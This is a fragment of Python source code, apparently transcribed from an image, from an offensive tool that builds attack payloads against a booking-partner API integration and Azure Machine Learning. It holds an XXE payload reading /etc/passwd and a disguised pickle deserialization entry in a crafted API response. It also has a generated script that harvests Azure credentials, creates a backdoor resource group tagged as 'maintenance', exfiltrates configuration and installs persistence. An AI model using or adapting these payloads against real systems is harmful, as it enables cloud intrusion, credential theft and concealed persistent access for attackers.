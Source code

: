 ```python
                    'availability': True
                }
            ],
            'metadata': {
                'source': 'booking-partner.com',
                'response_id': 'resp_abc123',
                # Hidden deserialization payload
                '__class__': {
                    '__module__': 'pickle',
                    '__name__': 'loads',
                    '__args__': ['base64-encoded-malicious-object']
                },
                # Alternative: XXE payload
                'xml_data': '''<?xml version="1.0"?>
                    <!DOCTYPE data [
                    <!ENTITY xxe SYSTEM "file:///etc/passwd">
                    ]>
                    <data>&xxe;</data>'''
            }
        }
        
        return {
            'attack_vector': 'api_integration_compromise',
            'target_integrations': target_integrations,
            'attack_example': malicious_api_response,
            'escalation_impact': 'Backend system compromise via trusted API responses'
        }
    
    def create_aml_escalation_payload(self) -> str:
        """Create payload for Azure ML privilege escalation"""
        payload = """
        import subprocess
        import json
        import requests
        import os
        from azure.identity import DefaultAzureCredential
        from azure.mgmt.resource import ResourceManagementClient
        
        def escalate_privileges():
            # Harvest Azure credentials
            credential = DefaultAzureCredential()
            
            # Create service principal with elevated privileges
            create_backdoor_account(credential)
            
            # Exfiltrate environment configuration
            config = gather_azure_config(credential)
            exfiltrate_data(config)
            
            # Establish persistence
            install_persistence_mechanisms(credential)
        
        def create_backdoor_account(credential):
            # Use compromised ML service credentials to create admin account
            subscription_id = os.environ.get('AZURE_SUBSCRIPTION_ID')
            
            if subscription_id:
                resource_client = ResourceManagementClient(credential, subscription_id)
                # Create resource group with backdoor access
                resource_client.resource_groups.create_or_update(
                    'backdoor-admin-rg',
                    {'location': 'eastus', 'tags': {'purpose': 'maintenance'}}
                )
```